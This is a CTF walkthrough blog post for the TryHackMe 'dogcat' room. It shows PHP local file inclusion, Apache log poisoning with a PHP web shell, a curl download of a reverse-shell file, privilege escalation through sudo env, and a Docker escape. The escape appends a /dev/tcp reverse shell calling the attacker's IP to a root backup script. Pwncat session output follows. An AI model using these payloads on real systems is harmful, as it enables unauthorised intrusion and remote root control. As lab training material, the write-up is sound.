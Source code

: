 ```yaml
---
layout: post
title: dogcat
published: true
category: CTF
system: web
walkthrough-type: thm
source: https://tryhackme.com/room/dogcat
Description: a website where you can look at pictures of dogs and/or cats! Exploit a PHP application via LFI and break out of a docker container.
tags: php, lfi, docker, security
---
```


* * * 

# Notes

4 flags for this task.

start by booting up the machine and performing my nmap scans. `nmap -p- dogcat.thm -vvv`. Also check out the website. Here we see a question cats or dogs...hard choice both good but these seem to be calling a view function in the php. Should see if we can check for LFI. Booting up burpsuite.

lets try to bypass with directory traversal

<img src="/assets/dogcat01.png">

the base64 is the encoded index.php

```
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
            $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>
```

going to run a few gobuster scans 

- `gobuster dir -u http://dogcat.thm -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -t 100 -x txt,php`

and

- `gobuster dir -u http://dogcat.thm -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 -x txt,php`

we find a few different files, flag.php 

```
/index.php            (Status: 200) [Size: 418]
/cat.php              (Status: 200) [Size: 26]
/flag.php             (Status: 200) [Size: 0]
/cats                 (Status: 301) [Size: 307] [--> http://dogcat.thm/cats/]
/dogs                 (Status: 301) [Size: 307] [--> http://dogcat.thm/dogs/]
/dog.php              (Status: 200) [Size: 26]
```

sending the request for flag.php through burpsuite repeater gets us our first flag.

our nmap scan shows the server is running apache. we can try to get code execution with log poisoning.

access the log for apache is at `/var/log/apache2/access.log` so we can try to view it like this `/?view=./dog/../../../../../../../var/log/apache2/access/log&ext`

we can edit our user-agent parameter to this php script to use for the log code execution `<?php system($_GET['cmd']);?>`

- `GET /?view=./dog/../../../../../../../var/log/apache2/access.log&ext&cmd=whoami HTTP/1.1`

we can see the response www-data. lets try to get a reverse shell.

setting up pwncat listener. `pwncat-cs -lp 6669`, and gets get a pentestmonkey shell from <a href="https://www.revshells.com/">revshells.com</a> and setup a python webserver then curl or wget it to the server.

- `GET /?view=./dog/../../../../../../../var/log/apache2/access.log&ext&cmd=curl+http%3a//10.2.3.64/rev.php+-o+rev.php`

we are now setup on the system with a www-data reverse shell. we can run linpeas in tmp to check for quick escalation.

checking `sudo -l` we are allowed to run `env` as root. `env` we can used this to break out of this enviroment by spawning an interactive shell with `sudo env /bin/sh`.

we can pickup the 3rd flag in `/root/`

missing the second flag... quick `find / -name *flag` finds it.

now time to break out of the docker.

checking the backup we can see that the date is much more recent than the script so the backup much be run regularly on the target machine. we can take advantage of this and edit the script to send us back a reverse shell.

```
(remote) root@3754df62901f:/opt/backups$ echo "#!/bin/bash" > backup.sh
(remote) root@3754df62901f:/opt/backups$ echo "sh -i >& /dev/tcp/10.2.3.64/6669 0>&1" >> backup.sh
```

and we should recieve a connection back soon on 6669

```
(local) pwncat$ listeners
                           Listeners                            
     ╷         ╷              ╷          ╷           ╷          
  ID │ State   │ Address      │ Platform │ Remaining │ Pending  
 ════╪═════════╪══════════════╪══════════╪═══════════╪═════════ 
  0  │ RUNNING │ 0.0.0.0:6669 │ linux    │ inf       │ 0        
     ╵         ╵              ╵          ╵           ╵          
[04:44:04] 10.10.48.124:48848: normalizing shell path                                                                                                                                               manager.py:957
[04:44:06] 10.10.48.124:48848: upgrading from /bin/dash to /bin/bash                                                                                                                                manager.py:957
[04:44:08] 10.10.48.124:48848: registered new host w/ db                                                                                                                                            manager.py:957
(local) pwncat$ sessions
[04:44:41] listener: 0.0.0.0:6669: connection from 10.10.48.124:48848 aborted: channel receive timed out: b'RNuShuMhU7VfPUvEQ\n/c/pass 1512 4 0ca02  1 0  16712437 18949835249 0 6\nCUaT8\nEBfk6\n' manager.py:957
           warning: 10.10.48.124:48848: channel closed                                                                                                                                              manager.py:957
(local) pwncat$ sessions
                                    Active Sessions                                    
     ╷      ╷                                  ╷          ╷      ╷                     
  ID │ User │ Host ID                          │ Platform │ Type │ Address             
 ════╪══════╪══════════════════════════════════╪══════════╪══════╪════════════════════ 
  *0 │ root │ 702c415b79e2b5e04ee55d702cb3e767 │ linux    │ Bind │ 10.10.48.124:35818  
     ╵      ╵                                  ╵          ╵      ╵                     
(local) pwncat$ listeners
                           Listeners                            
     ╷         ╷              ╷          ╷           ╷          
  ID │ State   │ Address      │ Platform │ Remaining │ Pending  
 ════╪═════════╪══════════════╪══════════╪═══════════╪═════════ 
  0  │ RUNNING │ 0.0.0.0:6669 │ linux    │ inf       │ 0        
     ╵         ╵              ╵          ╵           ╵          
[04:45:04] 10.10.48.124:48850: normalizing shell path                                                                                                                                               manager.py:957
[04:45:06] 10.10.48.124:48850: upgrading from /bin/dash to /bin/bash                                                                                                                                manager.py:957
[04:45:08] 10.10.48.124:48850: loaded known host from db                                                                                                                                            manager.py:957
[04:45:11] listener: 0.0.0.0:6669: linux session from 10.10.48.124:48850 established                                                                                                                manager.py:957
(local) pwncat$ sessions
                                     Active Sessions                                     
     ╷      ╷                                  ╷          ╷        ╷                     
  ID │ User │ Host ID                          │ Platform │ Type   │ Address             
 ════╪══════╪══════════════════════════════════╪══════════╪════════╪════════════════════ 
  0  │ root │ 702c415b79e2b5e04ee55d702cb3e767 │ linux    │ Bind   │ 10.10.48.124:35818  
  *1 │ root │ 6fce223e51db7cddc12b57468a770298 │ linux    │ Socket │ 10.10.48.124:48850  
     ╵      ╵                                  ╵          ╵        ╵                     
(local) pwncat$ sessions 1
[04:45:30] targeting session-1 (10.10.48.124:48850)                                                                                                                                                 sessions.py:88
(local) pwncat$                                                                                                                                                                                                   
(remote) root@dogcat:/root# ls -las
total 40
4 drwx------  6 root root 4096 Apr  8  2020 .
4 drwxr-xr-x 24 root root 4096 Apr  8  2020 ..
0 lrwxrwxrwx  1 root root    9 Mar 10  2020 .bash_history -> /dev/null
4 -rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
4 drwx------  2 root root 4096 Apr  8  2020 .cache
4 drwxr-xr-x  5 root root 4096 Mar 10  2020 container
4 -rw-r--r--  1 root root   80 Mar 10  2020 flag4.txt
4 drwx------  3 root root 4096 Apr  8  2020 .gnupg
4 drwxr-xr-x  3 root root 4096 Apr  8  2020 .local
4 -rw-r--r--  1 root root  148 Aug 17  2015 .profile
4 -rw-r--r--  1 root root   66 Mar 10  2020 .selected_editor
(remote) root@dogcat:/root# cat flag4.txt
```


